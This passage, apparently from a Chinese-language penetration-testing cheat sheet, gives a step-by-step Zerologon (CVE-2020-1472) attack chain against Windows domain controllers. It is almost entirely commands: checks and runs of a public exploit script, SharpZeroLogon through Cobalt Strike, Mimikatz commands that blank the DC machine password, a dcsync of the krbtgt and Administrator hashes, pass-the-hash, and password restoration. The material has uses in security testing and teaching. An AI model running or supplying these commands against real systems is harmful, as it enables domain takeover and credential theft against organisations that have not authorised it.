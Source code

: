  #### 检测
  	crackmapexec smb 10.10.10.10 -u username -p password -d domain -M zerologon
 #### cve-2020-1472-exploit.py- 来自dirkjanm的 Python 脚本
	git clone https://github.com/dirkjanm/CVE-2020-1472.git
	激活一个虚拟环境来安装impacket
	>python3 -m venv venv
	>source venv/bin/activate
	>pip3 install .
	>proxychains python3 cve-2020-1472-exploit.py DC01 172.16.1.5
	查找 DC 的旧 NT 哈希
	>proxychains secretsdump.py -history -just-dc-user 'DC01$' -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'CORP/DC01$@DC01.CORP.LOCAL'
	从 secretsdump 恢复密码
	将本地注册表机密转储到最新版本时,secretsdump 将自动转储明文机器密码（十六进制编码）
	python restorepassword.py CORP/DC01@DC01.CORP.LOCAL -target-ip 172.16.1.5 -hexpass e6ad4c4f64e71cf8c8020aa44bbd70ee711b8dce2adecd7e0d7fd1d76d70a848c987450c5be97b230bd144f3c3
	deactivate
 #### nccfsas- Cobalt Strike 的执行程序集的 .NET 二进制文件
	>git clone https://github.com/nccgroup/nccfsas
	检查
	>execute-assembly SharpZeroLogon.exe win-dc01.vulncorp.local
	重置机器账户密码
	>execute-assembly SharpZeroLogon.exe win-dc01.vulncorp.local -reset
	从一个没加入域的机器测试
	>execute-assembly SharpZeroLogon.exe win-dc01.vulncorp.local -patch
 #### Mimikatz- 2.2.0 20200917 zerologon
  	privilege::debug
	检查
	lsadump::zerologon /target:DC01.LAB.LOCAL /account:DC01$
	执行，并且设置密码为空
	lsadump::zerologon /target:DC01.LAB.LOCAL /account:DC01$ /exploit
	执行dcsync导出hash
	lsadump::dcsync /domain:LAB.LOCAL /dc:DC01.LAB.LOCAL /user:krbtgt /authuser:DC01$ /authdomain:LAB /authpassword:"" /authntlm
	lsadump::dcsync /domain:LAB.LOCAL /dc:DC01.LAB.LOCAL /user:Administrator /authuser:DC01$ /authdomain:LAB /authpassword:"" /authntlm
	PTH
	sekurlsa::pth /user:Administrator /domain:LAB /rc4:HASH_NTLM_ADMIN
	使用 IP 地址代替FQDN 用 Windows API 来强制 NTLM
	重置密码为Waza1234/Waza1234/Waza1234/
	# https://github.com/gentilkiwi/mimikatz/blob/6191b5a8ea40bbd856942cbc1e48a86c3c505dd3/mimikatz/modules/kuhl_m_lsadump.c#L2584
	lsadump::postzerologon /target:10.10.10.10 /account:DC01$